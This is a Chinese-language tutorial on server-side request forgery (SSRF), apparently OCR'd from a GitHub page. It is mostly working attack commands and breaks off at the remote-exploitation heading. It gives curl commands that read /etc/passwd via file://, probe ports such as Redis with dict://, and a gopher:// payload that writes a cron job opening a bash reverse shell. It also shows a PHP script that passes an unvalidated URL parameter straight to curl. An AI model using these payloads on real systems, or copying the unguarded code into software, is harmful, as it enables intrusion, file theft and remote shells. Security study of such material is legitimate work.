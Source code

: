 SSRF漏洞

1. 漏洞简介
SSRF(Server-side Request Forge, 服务端请求伪造)。
由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务。
2. 漏洞利用
自从煤老板的paper放出来过后，SSRF逐渐被大家利用和重视起来。

2.1 本地利用
拿PHP常出现问题的cURL举例。

可以看到cURL支持大量的协议，例如file, dict, gopher, http

➜ curl -V
curl 7.43.0 (x86_64-apple-darwin15.0) libcurl/7.43.0 SecureTransport zlib/1.2.5
Protocols: dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp
Features: AsynchDNS IPv6 Largefile GSS-API Kerberos SPNEGO NTLM NTLM_WB SSL libz UnixSockets
本地利用姿势：

# 利用file协议查看文件
curl -v 'file:///etc/passwd'

# 利用dict探测端口
curl -v 'dict://127.0.0.1:22'
curl -v 'dict://127.0.0.1:6379/info'

# 利用gopher协议反弹shell
```
curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$57%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```
2.2 远程利用
漏洞代码ssrf.php（未做任何SSRF防御）
```

function curl($url){  
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
curl($url); 
```
远程利用方式：
